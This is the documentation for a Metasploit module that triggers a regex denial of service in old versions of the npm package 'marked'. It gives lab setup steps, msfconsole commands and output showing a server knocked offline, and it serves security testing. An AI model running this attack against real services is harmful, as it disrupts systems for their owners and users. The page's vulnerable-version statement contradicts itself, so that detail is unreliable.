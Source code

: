 ## Vulnerable Application

This auxiliary module exploits a Regular Expression Denial of Service vulnerability
in the npm module `marked`.  The vulnerable regex is in the "heading" processing. 
Versions before 0.3.19 are vulnerable.
Any application that uses a vulnerable version of this module and passes untrusted input
to the module will be vulnerable.

### How to Install

To install a vulnerable version of `marked`, run:
```
npm i marked@0.3.19
```

## Verification Steps

1. Create a new directory for test application.
2. Copy below example server into test application directory as `server.js`.
3. Run `npm i express` to install express in the test application directory.
4. To test vulnerable versions of the module, run `npm i marked@0.3.19` to install a vulnerable version of marked.
5. To test non-vulnerable versions of the module, run `npm i marked` to install the latest version of marked.
6. Once all dependencies are installed, run the server with `node server.js`.
7. Open up a new terminal.
8. Start msfconsole.
9. `use auxiliary/dos/http/marked_redos`.
10. `set RHOST [IP]`.
11. `set HTTP_METHOD get` (optional)
12. `set HTTP_PARAMETER foo` (required)
13. `set TARGETURI /path/to/vulnerable/route` (optional)
14. `run`.
15. In vulnerable installations, Module should have positive output and the test application should accept no further requests.
16. In non-vulnerable installations, module should have negative output and the test application should accept further requests.

## Scenarios

### marked npm module version 0.3.19

Expected output for successful exploitation:

```
[*] Testing Service to make sure it is working.
[*] Test request successful, attempting to send payload
[*] Sending ReDoS request to 192.168.3.24:3000.
[*] No response received from 192.168.3.24:3000, service is most likely unresponsive.
[*] Testing for service unresponsiveness.
[+] Service not responding.
[*] Auxiliary module execution completed
```

### Example Vulnerable Application

```
// npm i express body-parser
// npm i marked@0.3.19 (vulnerable)
// npm i marked (non-vulnerable)

const marked = require('marked');
const express = require('express');
const bodyParser = require('body-parser');

var app = express();
app.use(bodyParser.text({ type: 'text/html' }));

// create application/json parser
const jsonParser = bodyParser.json();

// create application/x-www-form-urlencoded parser
const urlencodedParser = bodyParser.urlencoded({ extended: false });

app.get("/", urlencodedParser, function(req, res) {
  var result = req.query.foo ? marked(req.query.foo) : 'nothing';
  res.end(result);
});

app.post("/cat", urlencodedParser, function(req, res) {
  var result = req.body.bar ? marked(req.body.bar) : 'nothing'
  res.end(result);
});

app.listen(3000, '0.0.0.0', function() { console.log('Application listening on port 3000 on all interfaces!'); });
```
